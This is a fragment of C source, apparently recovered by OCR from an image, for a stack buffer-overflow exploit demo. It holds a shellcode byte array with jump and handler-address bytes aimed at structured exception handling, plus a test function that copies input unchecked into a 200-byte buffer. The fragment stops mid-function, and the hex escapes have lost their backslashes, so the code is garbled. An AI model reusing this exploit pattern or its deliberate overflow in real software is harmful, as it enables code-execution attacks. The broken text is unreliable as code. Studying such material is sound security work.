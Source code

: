 	char shellcode[]=

	"xFCx68x6Ax0Ax38x1Ex68x63x89xD1x4Fx68x32x74x91x0C"

	"x8BxF4x8Dx7ExF4x33xDBxB7x04x2BxE3x66xBBx33x32x53"

	"x68x75x73x65x72x54x33xD2x64x8Bx5Ax30x8Bx4Bx0Cx8B"

	"x49x1Cx8Bx09x8Bx69x08xADx3Dx6Ax0Ax38x1Ex75x05x95"

	"xFFx57xF8x95x60x8Bx45x3Cx8Bx4Cx05x78x03xCDx8Bx59"

	"x20x03xDDx33xFFx47x8Bx34xBBx03xF5x99x0FxBEx06x3A"

	"xC4x74x08xC1xCAx07x03xD0x46xEBxF1x3Bx54x24x1Cx75"

	"xE4x8Bx59x24x03xDDx66x8Bx3Cx7Bx8Bx59x1Cx03xDDx03"

	"x2CxBBx95x5FxABx57x61x3Dx6Ax0Ax38x1Ex75xA9x33xDB"

	"x53x68x77x65x73x74x68x66x61x69x6Cx8BxC4x53x50x50"

	"x53xFFx57xFCx53xFFx57xF8x90x90x90x90x90x90x90x90"

	"x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

	"x90x90x90x90x90x90x90x90"

	"xE9x33xFFxFFxFFx90x90x90"// machine code of far jump and x90

	"xEBxF6x90x90"// machine code of short jump and x90

	"x0Bx0Bx27x00"// address of call [ebp+30] in outside memory

	;

	DWORD MyException(void)

	{

		printf("There is an exception");

		getchar();

		return 1;

	}

	void test(char * input)

	{

		char str[200];

		strcpy(str,input);

		int zero=0;

		__try

		{

			zero=1/zero;

		}
